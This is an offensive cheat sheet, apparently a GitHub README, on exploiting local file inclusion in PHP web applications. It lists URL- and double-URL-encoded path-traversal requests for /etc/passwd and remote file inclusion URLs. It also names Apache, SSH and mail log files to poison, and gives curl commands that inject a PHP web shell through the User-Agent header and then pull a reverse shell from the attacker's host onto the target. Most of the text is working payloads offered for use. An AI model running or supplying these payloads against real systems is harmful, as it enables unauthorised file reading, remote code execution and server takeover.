 #### In other cases, we can use url encoding...
```
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
```
#### If that doesn't work, try double url encoding...
```
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```
#### Accessing a local server...
```
http://example.com/index.php?page=http://IP:PORT/file.php
http://example.com/index.php?page=http://IP:PORT/file // dont put extension if there's  the php extension added in the code...
```

### Exploiting the LFI...
After you've already gotten your lfi, some keep files you can look out for include:

```
/var/log/apache2/access.log // if the server is apache
/var/log/auth.log //for ssh log poisoning
/var/log/mail.log //for smtp log poisonig

```
#### for Apache log poisoning...
```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log 

 

Payload: curl "http://192.168.8.108/" -H "User-Agent: <?php system(\$_GET['c']); ?>" 



Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log&c=id

OR

python -m SimpleHTTPServer 9000 



Payload: curl "http://<remote_ip>/" -H "User-Agent: <?php file_put_contents('shell.php',file_get_contents('http://<local_ip>:9000/shell-php-rev.php')) ?>" 


file_put_contents('shell.php')                                // What it will be saved locally on the target
file_get_contents('http://<local_ip>:9000/shell-php-rev.php') // Where is the shell on YOUR pc and WHAT is it called

Execute PHP Reverse Shell: http//10.10.10.10/shell.php
```
